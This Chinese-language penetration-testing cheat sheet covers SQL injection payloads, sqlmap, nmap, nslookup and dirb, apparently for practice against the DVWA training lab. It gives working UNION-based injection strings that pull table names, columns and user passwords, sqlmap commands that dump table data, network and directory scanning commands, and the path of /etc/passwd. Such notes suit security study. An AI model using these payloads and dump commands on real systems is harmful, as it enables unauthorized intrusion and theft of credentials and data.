

## SQL Injection 常用語法

https://feifei.tw/sql-injection/

基本注入：
```
    ' or '1' = '1
```
UNION 注入：
1. 先判斷可控列數
```
    ' or 1 = 1 order by 1 #
    1' union select 1,2#
```
2. 取得DB name 
```
    1' union select 1, database()#
```
3. 取得table name 
```
    1' union select 1,group_concat(table_name) from information_schema.tables   where table_schema = 'dvwa' #
```
4. 取得column name 
```
    1' or 1 = 1 union select 1,group_concat(column_name) from information_schema.columns  where table_name = 'users' #
```
5. 取得資料內容詳細
```
    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users # 
```

## SQLMAP 常用語法

```
    # 更新SQLmap
    --update

    # 只需確認是否可注入，並只顯示 payload 技術與後端技術
    sqlmap -u "URL"

    # 獲取資料庫
    sqlmap -u "URL" --dbs

    # 獲取資料庫所有 table
    sqlmap -u "URL" -D <database> --tables

    # 獲取指定 table 之欄位
    sqlmap -u "URL" -D <database> -T <table> --columns

    # 獲取指定 table 之指定欄位資料
    sqlmap -u "URL" -D <database> -T <table> -C field1,field2 --dump
```
完整連結:

https://hackmd.io/@bttea/sqlmap_common_parameters

## NMAP

| 指令                    | 描述                                      |
| -----------------------| ----------------------------------------- |
| `nmap <目標>`          | 執行基本的端口掃描，指定單個目標。        |
| `nmap -sV <目標>`      | 對目標進行服務版本檢測。                  |
| `nmap -O <目標>`       | 嘗試識別目標操作系統。                    |
| `nmap -A <目標>`       | 執行全面的掃描，包括版本檢測和操作系統識別。 |
| `nmap -p <port> <目標>`| 指定掃描的port範圍。                      |
| `nmap -T <速度> <目標>` | 設置掃描的速度。                          |
| `nmap -oN <文件名> <目標>`| 將掃描結果保存到指定文件中。              |
| `nmap -sS <目標>`      | 使用 TCP SYN 掃描技術進行掃描。           |
| `nmap -sU <目標>`      | 掃描目標的 UDP 端口。                     |
| `nmap -v <目標>`       | 顯示詳細輸出，提供更多信息。              |
| `nmap -h`              | 顯示幫助信息和可用選項。                  |

```
    nmap 192.168.166.6
```
得知目標有開哪些服務



```
    nmap -sP 192.168.166.1-254
```

## nslookup

得知目標範圍內有哪些IP正在啟動


```
nslookup <網域名稱>
nslookup -type=<記錄類型> <網域名稱>
nslookup <網域名稱> <指定的 DNS 伺服器>
nslookup -type=<記錄類型> <網域名稱> <指定的 DNS 伺服器>
```

操作範例：
* nslookup yahoo.com（查詢 yahoo.com 的 DNS 記錄，預設為 A 記錄）
* nslookup -type=mx yahoo.com（查詢 yahoo.com 的 MX 記錄）
* nslookup yahoo.com 8.8.8.8（指定從 DNS 伺服器 8.8.8.8 來查詢 yahoo.com）
* nslookup -type=mx yahoo.com 8.8.8.8（指定從 DNS 伺服器 8.8.8.8 來查詢 yahoo.com 的 MX 記錄）

# dirb 


```
    dirb http://127.0.0.1/dvwa
```


* 指定特定查詢，使用-X表示，指定.php類別的資料
```
 dirb http://127.0.0.1/dvwa -X.php
```

## 其他常用命令

| 指令                     | 描述                                         |
| ------------------------ | -------------------------------------------- |
| `dirb <URL> <字典文件>` | 使用指定的字典文件進行目錄掃描。              |
| `dirb -o <輸出文件>`     | 將掃描解果輸出。                 |
| `dirb -r`                | 遞迴掃描，秀出目錄及子目錄。           |
| `dirb -S`                | 設置 HTTP 標頭文件。                           |
| `dirb -t <process 數>`       | 设置process，加快掃描速度。                   |
| `dirb -N`                | 不顯示沒有發現的頁面。                       |
| `dirb -p <代理>`         | 使用指定的代理。                             |

https://ithelp.ithome.com.tw/articles/10275958


預設字典擋位置：/usr/share/dirb/wordlists/以下

/usr/share/dirb/wordlists/vulns/apache.txt

## 其他
Linux passwd位置：/etc/passwd
